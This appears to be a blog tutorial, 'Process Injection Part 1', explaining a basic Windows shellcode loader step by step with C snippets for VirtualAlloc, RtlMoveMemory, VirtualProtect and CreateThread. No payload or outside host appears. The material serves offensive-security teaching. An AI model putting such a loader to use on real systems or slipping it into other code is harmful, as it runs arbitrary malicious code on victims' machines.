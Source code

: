 ```yaml
---
layout: post
title:  "Process Injection Part 1"
---
```


### Executing payload locally using shellcode.

## Introduction

This method employs Windows APIs like VirtualAlloc, VirtualProtect and CreateThread. No evasion or obfuscation techniques are employed in this; it's simple and straightforward with no emphasis on evasion.

## Section 1: Getting Started

### Utilized functions from the Windows APIs
- VirtualAlloc: Reserves, commits, or changes the state of a region of pages in the virtual address space of the calling process

- RtlMoveMemory: Copies the contents of a source memory block to a destination memory block, and supports overlapping source and destination memory blocks.

- VirtualProtect: Changes the protection on a region of committed pages in the virtual address space of the calling process.

- CreateThread: Creates a thread to execute within the virtual address space of the calling process.

### Flow of the Program (key steps)

- Memory Allocation: A critical step involves reserving and committing memory for the payload using the VirtualAlloc function. The allocated memory, referred to as exec_mem, is initially set to read and write.

```c
void *exec_mem;
BOOL rv;
HANDLE th;
DWORD oldprotect = 0;
exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);```

- Copy Payload: The payload is then copied to the newly allocated buffer using the RtlMoveMemory function. This sets the stage for the actual execution.

```c
 RtlMoveMemory(exec_mem, payload, payload_len);```

- Memory Protection: To enable execution, the protection of the allocated memory is adjusted using VirtualProtect. The memory is now set to be executable and readable, paving the way for the payload's execution.

```c
rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);```

- Thread Creation: Assuming successful memory protection, a new thread (th) is spawned using CreateThread. The thread is tasked with executing the code residing at the address pointed to by exec_mem. To maintain control flow and observe the execution, the program waits for the created thread to finish using WaitForSingleObject.

```c
if (rv != 0) {
th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);```
WaitForSingleObject(th, -1);} 

<iframe width="853" height="480" src="https://www.youtube.com/embed/bW3VQhcYu5A" title="Process Injection 01 - Executing payload locally using shellcode." frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>



